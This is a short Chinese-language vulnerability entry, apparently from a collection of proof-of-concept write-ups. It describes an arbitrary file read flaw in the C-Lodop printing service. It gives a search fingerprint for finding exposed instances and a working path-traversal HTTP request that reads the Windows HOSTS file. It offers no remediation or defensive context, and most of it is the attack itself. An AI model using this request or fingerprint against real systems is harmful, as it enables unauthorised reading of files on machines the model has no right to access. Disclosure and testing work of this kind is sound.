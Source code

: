 # C-Lodop打印机任意文件读取漏洞

## 漏洞描述

C-Lodop打印机存在任意文件读取漏洞，通过构造特殊URL，可实现读取系统任意文件。

## 网络测绘

```
title="C-Lodop"
```

## 漏洞复现

poc：

```
GET /../../../../../../../../windows/System32/drivers/etc/HOSTS HTTP/1.1
Host: 127.0.0.1
....
```

